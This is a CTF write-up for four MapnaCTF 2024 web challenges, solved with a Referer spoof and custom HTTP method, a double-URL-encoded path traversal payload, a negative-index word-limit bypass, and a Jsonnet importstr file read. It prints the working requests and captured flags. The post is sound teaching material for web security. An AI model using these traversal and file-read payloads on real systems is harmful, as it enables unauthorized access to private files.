 ```yaml
---
title: MapnaCTF 2024 web challenges
date: 2024-01-21
tags: web
categories: MapnaCTF 2024
---
```


solved by {% person hartmannsyg %}

## Flag Holding

We are given a website:
{% ccb terminal:true %}
http://18.184.219.56:8080/
{% endccb %}

![You are not coming from "http://flagland.internal/".](/static/MapnaCTF2024/flag_holding.png)

We then set the Referer header to http://flagland.internal/:

{% ccb terminal:true lang:http %}
Referer: http://flagland.internal/
{% endccb %}
```html
	<div class="msg" style="">
		Unspecified "secret".	</div>
```

We create a url parameter called `secret`: http://18.184.219.56:8080?secret=

{% ccb lang:html gutter1:1,2, wrapped:true %}
<div class="msg" style="">
		Incorrect secret. <!-- hint: secret is ____ which is the name of the protocol that both this server and your browser agrees on... -->	</div>
{% endccb %}

the protocol is http, so http://18.184.219.56:8080?secret=http with the header gives us:

```html
	<div class="msg" style="">
		Sorry we don't have "GET" here but we might have other things like "FLAG".	</div>
```

We have to use a custom http method `FLAG` instead of `GET`:

```html
	<div class="msg" style="">
		MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}	</div>
```

(btw I used https://hoppscotch.io/ for all this since that way I don't have to code out things)

## Novel Reader

We see that there is a `/read` function:

```http
GET /api/read/public/A-Happy-Tale.txt HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en
Connection: keep-alive
Cookie: session=eyJjcmVkaXQiOjEwMCwid29yZHNfYmFsYW5jZSI6MX0.Za000Q.zcBtJvYM3vXoJBf_o6j8gd_g9n4
Host: 3.64.250.135:9000
Referer: http://3.64.250.135:9000/
Sec-GPC: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
```

We want to read /flag.txt, but our `/read` call must evaluate to a `/public` directory (or at least it must start with `/public`):
{% ccb lang:py gutter1:43-50 caption:main.py highlight:4 %}
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
{% endccb %}

So instead of doing `http://3.64.250.135:9000/api/read/public/../../../../flag.txt`, we can *double url encode* the `../` to become `%252e%252e%252f`

{% ccb lang:http wrapped:true %}
GET /api/read/public/%252e%252e%252f%252e%252e%252fflag.txt HTTP/1.1
{% endccb %}
{% ccb lang:json wrapped:true gutter1:1,2,,3,4 %}
{
  "msg": "MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}\n\n... Charge your account to unlock more of the novel!",
  "success": true
}
{% endccb %}

## Novel Reader 2

We can use the same double url encoding trick to read `A-Secret-Tale.txt`, but we seem to not have enough words, even when we charge the number of words to 11 (remember to update the Cookie header if you are writing code to send the request)

{% ccb lang:json wrapped:true gutter1:1,2,,3,4 %}
{
  "msg": "Once a upon time there was a flag. The flag was... Charge your account to unlock more of the novel!",
  "success": true
}
{% endccb %}

We look at the specific line of code that is blocking us from accessing the flag:

{% ccb lang:py gutter1:43-50 caption:main.py highlight:7 %}
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
{% endccb %}

Normally, what this would do is trim the `buf` to only include words `0` to `session['words_balance']`.

However, python allows for negative indexing as well, where `-1` represents the last element:

```py
>>> a='0123456789'
>>> a[0:-1]
'012345678'
```

So if we deduct and deduct until our `words_balance` is `-1`, we get:

![Words Balance: -1](/static/MapnaCTF2024/novel_reader.png)

{% ccb lang:json wrapped:true gutter1:1,2,,3,4 %}
{
  "msg": "Once a upon time there was a flag. The flag was read like this: MAPNA{uhhh-y0u-607-m3-4641n-3f4b38571}.... Charge your account to unlock more of the novel!",
  "success": true
}
{% endccb %}

(remember to update the Cookie header if you are writing code to send the request)

## Advanced JSON Cutifier

> My homework was to write a JSON beautifier. Just Indenting JSON files was too boring that's why I decided to add some features to my project using a popular (More than 1k stars on GitHub!! ) library to make my project more exciting.
> **Important: You can't read any file other than /flag.txt on the remote environment.**

![](/static/MapnaCTF2024/advanced_json_cutifier.png)

we see that `1335+2` gets evaluated to `1337`. So it is probably something like a template injection? After a bit of fiddling (actually like half a day worth of fiddling), I tried:
```json
{"wow so advanced!!": import "os"}
```
and got:
```json
RUNTIME ERROR: couldn't open import "os": no match locally or in the Jsonnet library paths
	ctf:1:23-34	object <anonymous>
	Field "wow so advanced!!"	
	During manifestation	
```
We *finally* got the name of the library (Jsonnet). I then searched up how to read file contents using Jsonnet and got this github issue: https://github.com/google/jsonnet/issues/238

In there, they said something like:
```
std.assertEqual(importstr "lib/some_file.txt", "Hello World!\n") && 
```

So I tried importstr
```json
{"wow so advanced!!": importstr "flag.txt"}
```
and got
```json
{
   "wow so advanced!!": "MAPNA{5uch-4-u53ful-f347ur3-a23f98d}\n\n"
}
```